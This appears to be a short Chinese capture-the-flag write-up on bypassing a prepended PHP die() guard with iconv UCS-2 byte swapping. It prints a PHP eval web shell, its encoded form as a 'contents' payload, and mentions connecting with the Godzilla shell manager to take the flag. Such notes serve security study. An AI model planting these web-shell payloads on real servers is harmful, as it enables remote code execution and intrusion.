 编码

ucs-2 二位一反转，字符个数要在偶数位上，ucs-4 四位一反转，字符个数要是4的倍数,下面字符一共28位

```
<?php @eval($_POST[pass]);?>
```



但是使用contents之前会强制加上<?php die();?>14个字节，二的倍数可以解码

![image-20240426194003620](D:\Infiltration\笔记\note\图片\image-20240426194003620.png)

使用kali将pass.txt编码

```
icov -f UCS-2BE -t UCS-2LE pass.txt > pass1.txt
```

![image-20240426194826782](D:\Infiltration\笔记\note\图片\image-20240426194826782.png)

```
?<hp pe@av(l_$OPTSp[sa]s;)>?
```

![image-20240426195908174](D:\Infiltration\笔记\note\图片\image-20240426195908174.png)



```
contents=?<hp pe@av(l_$OPTSp[sa]s;)>?
```

![image-20240426201522522](D:\Infiltration\笔记\note\图片\image-20240426201522522.png)



哥斯拉连接上去拿到flag

![image-20240426201637682](D:\Infiltration\笔记\note\图片\image-20240426201637682.png)

用php本地模拟加上<?php die();?>解码后，phpdie被解码成功并扰乱了本身函数

```
echo iconv("UCS-2LE","UCS-2BE",'<?php die();?>?<hp pe@av(l_$OPTSp[sa]s;)>?');
```

![image-20240426200919127](D:\Infiltration\笔记\note\图片\image-20240426200919127.png)











